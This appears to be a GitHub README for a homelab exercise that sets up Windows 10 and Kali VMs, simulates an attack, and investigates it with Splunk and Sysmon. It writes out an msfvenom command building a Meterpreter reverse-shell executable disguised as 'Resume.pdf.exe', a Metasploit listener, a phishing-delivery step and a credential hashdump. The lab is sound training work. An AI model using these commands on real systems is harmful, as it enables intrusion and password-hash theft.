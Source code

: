 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it. This documentation covers the setup, configuration, attack simulation, investigation, and remediation steps, providing a thorough demonstration of attack and defence skills in a controlled lab environment.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Network > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command](./assets/pingtest.png)

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   ![Nmap scan results](./assets/nmap.png)

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost="Your Host IP" lport=4444 -f exe -oResume.pdf.exe
   ![malware created](./assets/msfresume.png)

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   ![Screenshot of phishing email](./assets/mail.png)

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your_IP>
   set LPORT 4444
   exploit
   ```

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.

### Step 3: Access the Victim Machine

- Once the malware is executed, access the victim machine via the Meterpreter shell.
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Analyze Sysmon logs in Splunk to trace malware behavior, focusing on:
  - **Process Creation**
  - **Network Connections**
  - **Registry Modifications**
- Document each log entry to map the attack sequence.  
  ![Relevant Splunk log screenshot]()

### 2. Investigation Findings

- Document findings, including:
  - How the attack was executed
  - Impact on the system
  - Vulnerabilities that were exploited

### 3. Malware Removal and Remediation

- Terminate the malicious process.
  - ![Task Manager Screenshot displaying malware process]()
- Delete the malware executable.
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

